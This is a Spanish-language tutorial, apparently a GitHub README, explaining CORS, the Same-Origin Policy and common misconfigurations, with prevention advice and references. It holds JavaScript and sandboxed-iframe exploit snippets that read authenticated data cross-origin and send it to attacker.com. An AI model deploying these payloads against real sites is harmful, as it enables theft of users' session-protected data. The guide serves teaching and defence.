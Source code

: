 # Cross-Origin Resource Sharing

## 📂 Introducción

CORS (Cross-Origin Resource Sharing) es un mecanismo implementado por los navegadores modernos que permite el acceso controlado a recursos ubicados en un dominio distinto al de la página que realiza la solicitud. Esta guía, basada en el contenido de [PortSwigger Research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), explica qué es CORS, cómo funciona, ejemplos de configuraciones vulnerables y cómo prevenir ataques relacionados.

## ❓ ¿Qué es CORS?

CORS es un protocolo basado en cabeceras HTTP que permite a un servidor indicar qué orígenes (dominios) externos pueden acceder a sus recursos. Su propósito es **relajar la Same-Origin Policy (SOP)**, una política de seguridad que impide que un sitio web lea contenido de otro sitio diferente.

> ⚠ Importante: CORS **no es una defensa contra ataques cross-origin como CSRF**.

## 🔐 Same-Origin Policy (SOP)

La SOP impide que scripts cargados desde un origen accedan a datos de otro origen diferente (diferente dominio, puerto o protocolo). Esta restricción protege la privacidad del usuario al evitar fugas de información entre sitios.

### Ejemplo:

Un script cargado desde `https://ejemplo.com` **no podrá acceder** al contenido de `https://api.ejemplo.com` sin una política CORS adecuada.

## ⚖️ Flexibilización controlada mediante CORS

CORS permite que el servidor indique explícitamente qué orígenes están autorizados para acceder a sus recursos, usando cabeceras como:

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Credentials`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

El navegador realiza una "negociación" previa (preflight) cuando se trata de solicitudes complejas, utilizando el método `OPTIONS` para consultar las reglas del servidor.

## ⚡ Ejemplo de ataque por mala configuración de CORS

### Caso: servidor refleja el header `Origin`

**Solicitud maliciosa:**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker.com
Cookie: sessionid=...
```

**Respuesta del servidor vulnerable:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploit en JavaScript:**

```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);
req.withCredentials = true;
req.send();
```

```javascript
// Explicación detallada del script CORS con robo de datos

// Este script utiliza XMLHttpRequest para hacer una solicitud entre sitios (cross-origin request)
// a una web vulnerable con CORS mal configurado.

var req = new XMLHttpRequest();

// req.onload:
// Esta función se ejecuta cuando la respuesta del servidor vulnerable llega.
req.onload = function() {
    // 🔒 Envío de datos robados:
    // Una vez que el navegador recibe la respuesta, se redirige a un dominio malicioso
    // incluyendo los datos sensibles como parámetro en la URL.
    location = 'https://attacker.com/log?data=' + this.responseText;
};

// Configuramos la solicitud para apuntar a la información sensible
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);

// withCredentials:
// Esto indica que la solicitud debe incluir cookies de sesión, lo cual es necesario
// para acceder a datos autenticados en el sitio vulnerable.
req.withCredentials = true;

// ⏳ Enviamos la solicitud
req.send();

/*
 Resumen del flujo:
1. El navegador del usuario carga esta página (en el dominio del atacante).
2. El script hace una solicitud GET a un sitio vulnerable con CORS.
3. Si el sitio vulnerable permite origen cruzado (y Access-Control-Allow-Credentials: true),
   la respuesta se recibe en el navegador.
4. El script redirige al usuario a attacker.com incluyendo los datos robados en la URL.

Este tipo de ataque es posible sólo si:
- La web vulnerable permite el origen cruzado de forma laxa.
- Se permite el uso de cookies mediante withCredentials + Access-Control-Allow-Credentials: true.
*/
```


Este código permite al atacante **leer información sensible** desde el navegador de la víctima autenticada.

## 🚨 Otras configuraciones inseguras

### 🔒 1. Errores en el parseo de dominios

* Whitelist mal implementada: permitir cualquier dominio que termine en `example.com` puede permitir `attackerexample.com`
* O permitir cualquier dominio que comience con `example.com` permite `example.com.attacker.com`

### 🔒 2. Whitelist que acepta `null` como origen

Navegadores pueden enviar `Origin: null` en ciertos escenarios:

* `file://` URLs
* iframes con sandbox
* Redirecciones entre sitios

**Respuesta vulnerable:**

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploit con iframe sandbox:**

```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable.com/data', true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

## ᾑ6 Consejos para prevenir ataques CORS

* **Nunca reflejar el ********`Origin`******** directamente** en `Access-Control-Allow-Origin`.
* Usar una **whitelist validada con exactitud** (sin regex permisivos).
* \*\*Nunca permitir \*\***`Access-Control-Allow-Credentials: true`** junto con `*` como origen.
* Bloquear `Origin: null` salvo que sea explícitamente necesario.
* Monitorear las cabeceras de respuesta y realizar auditorías regulares.

## 🔗 Enlaces de interés

* [CORS official MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
* [Same-Origin Policy explicada](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [CORS vulnerability research by PortSwigger](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [CORS misconfig checker](https://github.com/s0md3v/Corsy)

---

